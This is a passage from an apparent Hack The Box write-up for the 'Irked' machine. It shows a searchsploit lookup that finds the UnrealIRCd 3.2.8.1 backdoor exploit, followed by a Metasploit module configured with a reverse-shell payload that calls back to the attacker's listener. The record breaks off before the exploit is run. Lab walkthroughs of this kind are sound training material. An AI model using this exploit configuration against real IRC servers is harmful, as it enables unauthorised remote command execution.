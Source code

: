 ![IRC-Version](IrkedIRCVersion.png)

As you can see, I am not only connected, but I also got more intel about the specific
IRC version:

`Your host is irked.htb, running version Unreal3.2.8.1`

Let's check "searchsploit" if there's an exploit already written for this version.
It's an easy box afterall.

```
searchsploit unreal
-------------------------------------------------------------------- ----------------------------------
| Exploit Title                                                     |  Path                           |      
|                                                                   | (/usr/share/exploitdb/)         |      
-------------------------------------------------------------------- ----------------------------------
| UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)      | exploits/linux/remote/16922.rb  |      
-------------------------------------------------------------------------------------------------------
```

Seems like it. :)
Let's break in!

[[Top]](#top)

# Exploit
Let's fire up Metasploit. And load the exploit with `use exploit`.
The commands within `msf` are fairly simple. So I don't write them all down.
Here's the finished Exploit including the payload we will try.

```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  10.10.10.117     yes       The target address
   RPORT  6697             yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.15.149     yes       The listen address (an interface may be specified)                                                              
   LPORT  4444             yes       The listen port


Exploit target:
```